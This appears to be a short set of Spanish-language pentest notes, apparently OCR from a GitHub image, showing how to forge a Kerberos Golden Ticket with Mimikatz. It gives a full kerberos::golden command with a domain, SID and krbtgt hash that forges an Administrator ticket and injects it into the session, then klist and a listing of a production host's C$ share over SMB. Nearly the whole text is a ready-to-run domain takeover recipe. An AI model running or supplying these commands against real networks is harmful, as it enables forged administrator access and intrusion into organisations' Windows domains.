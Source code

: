 **Generar Golden Ticket**

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:research.security.local /sid:S-1-5-21-1693200156-3137632808-1858025440 /krbtgt:0e3cab3ba66afddb664025d96a8dc4d2 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

**Mostar el ticket inyectado en la sesion**

```powershell
klist
```

**Mostar contenido via smb**

```powershell
dir \\prod.research.SECURITY.local\c$
```